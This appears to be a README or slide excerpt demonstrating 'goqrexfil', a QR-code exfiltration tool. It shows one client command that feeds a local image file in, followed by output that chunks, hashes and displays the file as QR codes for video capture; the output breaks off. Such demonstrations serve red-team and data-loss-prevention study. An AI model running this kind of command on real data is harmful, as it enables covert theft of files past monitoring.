

# Client
$./goqrexfil -client < ~/Downloads/KS.jpeg     (4.7K)
[***] Client mode: ON
[*] Loading payload from file
Plaintext hash 7da87fa4b496372f2df35482e9413eee43b4165d13aae17bb4c07ad6ffe135c4

[*] Payload will be in 33 chunks
[***] Start your video, displaying in > 3 < seconds ****

[*] Creating QR code
   DATA_HASH = 3d015fb0d3993220808b264fd8b51f3475540385d867e96cafe75cafa261fdf5
[*] Creating QR code
   DATA_HASH = 659b26b507e15e1426e6e06c65bb0a1aefcadb4cc2c860acfbf9c1b3462b3277
[*] Creating QR code
   DATA_HASH = c20d1275e18dec791b772a82dc77e33b24c53ae4b20cc35ee79a8904db662f02
[*] Creating QR code
   DATA_HASH = 4a71b1345c0b9b58870a76aeea7b7f21068ed5aa466c6bd7012359db5562633d
[*] Creating QR code
………………………………………